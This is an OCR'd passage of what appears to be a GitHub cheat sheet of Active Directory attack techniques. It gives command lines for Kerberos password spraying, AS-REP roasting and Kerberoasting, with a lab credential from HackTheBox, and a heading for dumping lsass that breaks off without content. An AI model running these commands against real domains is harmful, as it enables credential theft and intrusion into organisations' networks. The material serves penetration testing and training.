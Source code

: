 Local Admin: Y/N

OS: Windows

Type: Spraying

Methods:

./kerbrute_linux_amd64 passwordspray -d domain.local \--dc 10.10.10.10
domain_users.txt Password123

<a name="as-rep-roasting"></a>
# AS-REP Roasting

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Kerberos

Methods:

.\\Rubeus.exe asreproast

<a name="kerberoasting"></a>
# Kerberoasting

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Kerberos

Methods:

GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip
10.10.10.100 -request

crackmapexec ldap 10.0.2.11 -u \'username\' -p \'password\' \--kdcHost
10.0.2.11 \--kerberoast output.txt

<a name="dump-lsass-with-silentprocessexit"></a>
# Dump lsass with SilentProcessExit

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunting

Methods:
